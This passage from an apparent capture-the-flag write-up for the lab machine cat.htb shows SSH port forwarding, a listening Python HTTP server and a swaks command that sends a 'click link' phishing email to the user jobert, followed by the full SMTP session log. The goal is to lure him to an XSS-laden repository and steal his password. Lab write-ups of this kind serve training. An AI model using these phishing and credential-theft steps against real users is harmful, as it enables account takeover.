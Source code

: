 Now we will send an `email to Jobert` so that he gives us his password; for this we also have to do port forwarding to `port 25` and also put ourselves in a Python server, in my case on `port 8000`.

```bash
ssh -L 25:127.0.0.1:25 axel@cat.htb
```

```bash
python3 -m http.server 8000
```

Once done, we send the following command to our machine to send an email to jobert.

**IMP: In --body, we change it after axel/(name of your repository)**

```bash
swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: click link" --body "http://localhost:3000/axel/aaa" --server localhost --port 25 --timeout 30s
```

```bash
swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: click link" --body "http://localhost:3000/axel/aaa" --server localhost --port 25 --timeout 30s

=== Trying localhost:25...
=== Connected to localhost.
<-  220 cat.htb ESMTP Sendmail 8.15.2/8.15.2/Debian-18; Mon, 3 Feb 2025 20:58:16 GMT; (No UCE/UBE) logging access from: localhost(OK)-localhost [127.0.0.1]
 -> EHLO kali.kali
<-  250-cat.htb Hello localhost [127.0.0.1], pleased to meet you
<-  250-ENHANCEDSTATUSCODES
<-  250-PIPELINING
<-  250-EXPN
<-  250-VERB
<-  250-8BITMIME
<-  250-SIZE
<-  250-DSN
<-  250-ETRN
<-  250-AUTH DIGEST-MD5 CRAM-MD5
<-  250-DELIVERBY
<-  250 HELP
 -> MAIL FROM:<axel@localhost>
<-  250 2.1.0 <axel@localhost>... Sender ok
 -> RCPT TO:<jobert@localhost>
<-  250 2.1.5 <jobert@localhost>... Recipient ok
 -> DATA
<-  354 Enter mail, end with "." on a line by itself
 -> Date: Mon, 03 Feb 2025 21:58:16 +0100
 -> To: jobert@localhost
 -> From: axel@localhost
 -> Subject: click link
 -> Message-Id: <20250203215816.151023@kali.kali>
 -> X-Mailer: swaks v20240103.0 jetmore.org/john/code/swaks/
 -> 
 -> http://localhost:3000/axel/xss
 -> 
 -> 
 -> .
<-  250 2.0.0 513KwGeI003719 Message accepted for delivery
 -> QUIT
<-  221 2.0.0 cat.htb closing connection
=== Connection closed with remote host.

```
